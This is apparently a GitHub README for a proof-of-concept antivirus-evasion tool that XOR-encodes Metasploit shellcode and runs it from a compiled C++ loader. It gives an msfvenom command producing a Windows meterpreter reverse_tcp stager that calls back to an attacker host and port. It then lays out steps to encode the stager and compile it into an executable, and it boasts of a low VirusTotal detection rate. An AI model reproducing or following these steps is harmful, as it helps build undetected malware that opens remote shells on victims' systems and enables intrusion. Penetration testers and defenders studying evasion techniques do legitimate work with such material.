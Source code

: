 MutlibyteEncodedShellcode
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

This little proof of concept is inspired by this blogpost: [Bypass antivirus with 10 lines of code](http://www.attactics.org/2016/03/bypassing-antivirus-with-10-lines-of.html)

There are two code files provided:
- shellcode_xor_encoder.py : This is a python file that will XOR encrypt a provided shellcode with a multibyte key.
- mutlibyteEncodedShellcode.cpp : This is the core C++ file that needs to be compiled. This file contains the encoded shellcode obtained from the output of the python script, it decrypts it given the same key, and loads the shellcode into memory before calling it.

How to use ?
----------------------
First, you need to obtain a usable shellcode from metasploit (I run it from a Kali distribution):
```
root@kali:~# msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f py
```
The output is an unencoded reverse_tcp meterpreter stager for x86 platform. You should adapt it to your needs (payload and parameters).

Then, edit the shellcode_xor_encoder.py file and paste the output buffer from previous command, and also set your desired encryption key.
Run the pyhton script:
```
root@kali:~# python shellcode_xor_encoder.py
```

Eventually, compile the C++ file into a Windows executable. You can create a new VisualStudio project for **Win32 console application** and use the C++ code provided as the main file. Any other method of compilation will require slight adjustment of the C++ code (headers mostly).

Detection rate
----------------------
As you can see, the code makes use of no other trick to evade AV detection or sandboxing. Still, today, 1st of June 2016, the detection ratio on VirusTotal is still very good (2/55)

![vt](https://dl.dropboxusercontent.com/s/x1c08b8k3cmvknu/mutlibyteEncodedShellcode_VT_result.jpg?dl=0)

Does it work ?
----------------------

YES :-)
![meterpreter](https://dl.dropboxusercontent.com/s/zo7niur27sesjuv/profit.jpg?dl=0)



![bitcoin](https://dl.dropboxusercontent.com/s/imckco5cg0llfla/bitcoin-icon.png?dl=0) Like these tools ? Tip me with bitcoins !
![address](https://dl.dropboxusercontent.com/s/9bd5p45xmqz72vw/bc_tipping_address.png?dl=0)